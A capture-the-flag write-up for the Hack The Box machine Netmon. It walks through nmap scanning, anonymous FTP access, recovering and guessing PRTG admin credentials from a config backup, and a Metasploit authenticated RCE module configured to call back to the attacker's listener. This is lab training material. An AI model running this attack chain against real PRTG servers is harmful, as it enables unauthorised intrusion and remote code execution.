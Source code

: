 # Netmon (10.10.10.152 -windows)
## Writeup by Hexachroma

1. nmap -sC -sV -oN nmap/init 10.10.10.152 -v 
```
21/tcp  open  ftp          Microsoft ftpd                              
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd                          
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs                      
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)           
| 02-03-19  08:08AM       <DIR>          Users                         
|_02-25-19  11:49PM       <DIR>          Windows           
| ftp-syst:                                                            
|_  SYST: Windows_NT                                                   
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)                                                         
|_http-favicon: Unknown favicon MD5: 36B3EF286FA4BEFBB797A0966B456479  
| http-methods:                                                        
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm 
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

2. Enumerating FTPuser to get juicy user.txt
>	`get C:\Users\public\user.txt`

3. Looking at the webserver and found out PRTG NETMON is installed
>	Stumble upon official documentation and learn that this app stores old config data
>	Using FTP to reach and download the conf
>	
>	![](docs/ftp.png)

4. Open the xml bak file
>	Found possible cred
>	
>	![](docs/cred.png)

5. Try FTP with prtgadmin:PrTg@dmin2018
>	Failed

6.	Lets get back to login page (netmon.htb/index.htm)
>	Using prtgadmin:PrTg@dmin2018 and fail
>	Using prtgadmin:PrTg@dmin2019 Success!
>	
>	![](docs/loginpage.png)

7.	find further vulnerability in current version
>	![](docs/vuln.png)

8. 	searchsploit current version
>	![](docs/searchsploit.png)

9.	using metasploit 
```
use exploit/windows/http/prtg_authenticated_rce
set admin_password PrTg@dmin2019
set RHOST $IP
set LHOST tun0	set LPORT 9001
run
```
>	![](docs/rce.png)
